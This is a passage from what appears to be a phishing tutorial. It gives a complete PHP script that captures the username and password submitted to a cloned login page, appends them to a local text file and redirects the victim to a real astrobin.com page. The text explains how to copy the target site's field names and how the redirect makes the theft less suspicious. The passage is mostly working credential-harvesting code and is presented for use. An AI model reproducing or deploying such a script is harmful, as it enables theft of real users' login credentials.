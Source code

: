 ![source code 1](/images/30.png)

We can now create the malicioius PHP script:

```php
<?php

$username = $_POST["auth-username"];
$password = $_POST["auth-password"];

$myfile = fopen("data/data.txt", "a+") or die("Unable to open file!");

$txt = "\nUsername: " . $username . "\nPassword: " . $password;
fwrite($myfile, $txt);
fclose($myfile);

header('Location: https://www.astrobin.com/users/Astro_Backyard/');
?>
```

In the above code, we use the values given in the original login page source code for the `name` parameter in the `<input>` elements for the username and password - in this case these are `auth-username` and `auth-password` respectively but will be different for different websites - just check the source code of the page you are copying.

We also add a redirect to a legitimate part of the website we are using to help with our phishing activities to make the attack less suspicious - we do this by adding a `Location` header.
